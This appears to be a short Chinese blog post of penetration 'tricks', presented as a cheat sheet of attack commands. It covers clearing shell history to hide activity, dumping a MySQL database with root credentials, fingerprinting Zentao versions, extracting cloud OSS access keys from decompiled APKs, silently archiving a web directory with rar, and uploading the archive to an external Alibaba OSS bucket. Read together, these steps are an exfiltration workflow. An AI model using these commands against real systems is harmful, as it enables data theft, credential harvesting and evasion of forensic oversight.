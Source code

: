 ```yaml
---
title: "分享渗透中的小技巧"
---
```


巩固知识，以免忘记
<!--more-->

<h5>关闭.History</h5>

```
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG
```

<h5>mysql dump脱数据<h5>

```mysql
mysqldump -hdbhost -uroot -pdbpasswd -d dbname >db.sql;
```


<h5>fofa使用中文关键字搜索目标搜不到</h5>
使用html编码后再搜索  https://seo.juziseo.com/tools/entity/

<h5>禅道获取版本号</h5>

index.php?mode=getconfig

<h5>获取oss key</h5>

apk逆向得到class文件，全局搜索OSS_access

<h5>获取进程中文件的具体位置</h5>

```
wmic process where name="qq.exe" get processid,executablepath,name
```

<h5>rar.exe压缩</h5>

```
rar.exe a -ag -k -r -s -ibck c:/programdata/wwww.rar  E:/web
```

<h5>oss传输文件</h5>

```
oss.exe cp c:\programdata\db.rar oss://xxx/xxx -e oss-cn-hongkong.aliyuncs.com -i xxx -k xxxx
```
